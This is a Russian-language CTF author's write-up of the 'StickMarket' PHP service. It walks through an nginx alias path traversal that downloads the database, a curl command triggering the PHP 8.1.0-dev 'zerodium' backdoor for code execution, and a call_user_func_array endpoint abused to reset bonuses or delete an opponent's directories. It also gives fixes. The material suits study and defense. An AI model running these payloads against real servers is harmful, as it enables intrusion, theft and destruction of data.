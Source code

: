 # Авторский writeup на сервис StickMarket

## Описание

Сервис StickMarket представлял собой подобие онлайн-площадки для продажи "палок истины".
Пользователь мог загрузить свою палку, купить чужую (при этом после покупки рендерилась информация "скрытая внутри" самой палки). Так же можно было получить приветсвенный бонус в 100 единиц.

Для загрузки новой палки на маркет необходимо было создать zip архив, содержащий в себе не более двух файлов:
- обязательный файл stick.yml с полями:
    `nameOfStick` -> название палки (по умолчанию `Typical stick`)
    `price` -> цена палки (по умолчанию 1000)
    `description` -> описание (по умолчанию 'Best. Of. The. Best. Stick. Of. Truth.')
    `author` -> автор (по умолчанию `Kartman`)
    `phraseOfTruth` -> собственно фраза, ради получения которой "покупалась палка" (по умолчанию `Truth is lie.`). Тут как раз хранились флаги 
    `image` -> имя jpg картинки товара (по умолчанию `null`. В случае отсутствия данного параметра картинка подгружалась из папки `static/stick.jpg`)

- необязательный файл вида *.jpg (проверялось только расширение через pathinfo)

В случае ошибки валидации полей yaml/присутствия больше двух файлов - сервис сообщал о ошибке.
Чекер проверял корректность сервиса через добавление новой палки на маркет.

## Уязвимости

### nginx alias path traversal

Если обратить внимание на конфиг nginx - видно что для нескольких папок были созданы alias'ы:

```
    location /images {
      alias /var/www/html/stick-market/images/;
    }

    location /static {
      alias /var/www/html/stick-market/static/;
    }
```

В данном случае ошибка заключалась в неправильном указании имени папки (без `/` в конце), что позволяло выполнить загрузку произвольных файлов из системы, например самым интересным файлом являлась БД:

`http://localhost/images../code/market.db`

#### Фикс 

Закрыть уязвимость можно было просто добавив `/` в конце имени папки:

```
    location /images/ {
      alias /var/www/html/stick-market/images/;
    }

    location /static/ {
      alias /var/www/html/stick-market/static/;
    }
```

### php8.1.0-dev backdoor 

Бекдор добавленный в php версии 8.1.0-dev и позволяющий выполнить произвольный код в системе - то есть получить прямую RCE в контейнер.

Пример вызова:
`curl -H "User-Agentt: zerodiumsystem('id');" 'http://localhost:443'`

#### Фикс 

Достаточно было перевести обработку данной папки (`/var/www/html/hello-world`) за nginx (т.к. он использует рhp-fpm).

### Вызов функции UpdateBonus через call_user_func_array

Данная уязвимость не полностью отработала на игре из-за криво пересобранного сервиса.

В файле func.php присутствовал следующий вызов:

```
if (isset($_GET['check']) && is_callable($_GET['check'])) {
    $params = $_GET;
    unset($params['check']);
    call_user_func_array($_GET['check'], $params);
}
```

А так же была интересная функция, позволяющая обнулить информацию о получении бонуса в БД:

```
function UpdateBonus($username) {
    try {
        $db = ConnectDatabase();
        $stmt = $db->prepare("UPDATE users SET bonus=0 WHERE username=:username");
        $stmt->bindValue(':username', $username);
        $stmt->execute();
        return true; 
    } catch (Exception) {
        return false;
    } 
}
```

Что позволяло нам сделать следующий вызов:

```
http://localhost/func.php?check=UpdateBonus&param=user
```

Но так как при финальной пересборке образа мной была допущена ошибка - при sql запросе вместо `:username` биндился `:uuid`, что не позволяло напрямую использовать данный вызов. Но была еще одна интересная фукнция, позволяющая закарраптить сервис противника:

```
function deleteDirectory($dir) {
    if (is_dir($dir)) {
        $objects = scandir($dir);
        foreach ($objects as $object) {
            if ($object != "." && $object != "..") {
                if (is_dir($dir . '/' . $object)) {
                    deleteDirectory($dir . '/' . $object);
                } else {
                    unlink($dir . '/' . $object);
                }
            }
        }
        rmdir($dir);
    }
}
```